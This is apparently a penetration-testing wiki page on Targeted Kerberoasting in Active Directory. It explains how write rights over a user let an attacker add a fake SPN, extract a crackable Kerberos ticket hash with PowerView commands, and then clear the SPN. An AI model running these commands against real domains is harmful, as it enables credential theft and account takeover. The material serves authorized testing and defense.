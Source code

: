 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has `WriteProperty`, `GenericWrite` or `GenericAll` over a target user.

The attacker can add a SPN \(ServicePrincipalName\) to that account. Once the account has a SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.

